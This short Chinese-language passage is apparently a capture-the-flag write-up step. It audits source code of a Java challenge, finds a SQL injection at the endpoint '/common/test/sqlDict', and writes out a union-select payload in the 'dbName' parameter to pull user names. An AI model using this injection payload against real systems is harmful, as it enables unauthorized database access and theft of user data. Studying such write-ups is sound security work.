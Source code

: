 ![代码审计获取信息](./Think_Java/代码审计获取信息.png)



![发现SQL注入](./Think_Java/发现SQL注入.png)

拼接路径：`/common/test/sqlDict`，对`dbName`进行传参

构造请求，`dbName=myapp?id=' union select (select name from user)#` 数据库名是从源码中读出来的。
